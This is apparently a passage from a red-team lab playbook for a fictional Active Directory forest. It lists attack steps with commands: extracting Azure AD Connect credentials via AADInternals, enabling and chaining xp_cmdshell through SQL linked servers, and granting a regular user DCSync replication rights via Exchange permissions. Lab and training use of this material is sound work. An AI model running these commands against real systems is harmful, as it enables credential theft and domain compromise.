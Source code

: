 ### 6. Azure AD Integration Attacks

#### Azure AD Connect Credential Extraction
- **Target**: us-adconnect server in north.kingandqueen.local
- **Initial Access**: Compromise the us-adconnect server
- **Attack Technique**: Extract credentials from the Azure AD Connect database
- **Commands**:
  ```powershell
  # Using AADInternals
  Import-Module .\AADInternals.ps1
  Get-AADConnectCredentials -Server us-adconnect.north.kingandqueen.local
  ```

### 7. SQL Server Link Attacks

#### Linked Server Abuse
- **Target**: SQL servers across domains
- **Initial Access**: Compromise us-mssql server
- **Attack Technique**: Use linked servers to execute commands across forest boundaries
- **Commands**:
  ```sql
  -- Enumerate linked servers
  EXEC sp_linkedservers
  
  -- Execute commands through linked servers
  EXEC ('sp_configure ''xp_cmdshell'', 1; RECONFIGURE') AT [DB-SQLPROD]
  EXEC ('xp_cmdshell ''whoami''') AT [DB-SQLPROD]
  
  -- Chain linked servers
  EXEC ('EXEC (''xp_cmdshell ''''whoami'''''''') AT [DB-SQLSRV]') AT [DB-SQLPROD]
  ```

### 8. Exchange Server Attacks

#### Exchange Privilege Escalation
- **Target**: Exchange server in north.kingandqueen.local
- **Initial Access**: Compromise regular_user account
- **Attack Technique**: Abuse Exchange management roles for privilege escalation
- **Commands**:
  ```powershell
  # Using PowerView to check Exchange permissions
  Import-Module .\PowerView.ps1
  Get-DomainUser regular_user | Get-DomainObjectAcl
  
  # Using PowerShell to exploit Exchange permissions
  Add-PSSnapin Microsoft.Exchange.Management.PowerShell.SnapIn
  Add-ADPermission -Identity "DC=north,DC=kingandqueen,DC=local" -User "regular_user" -ExtendedRights Replication-Get-Changes-All
  ```

## Initial Access
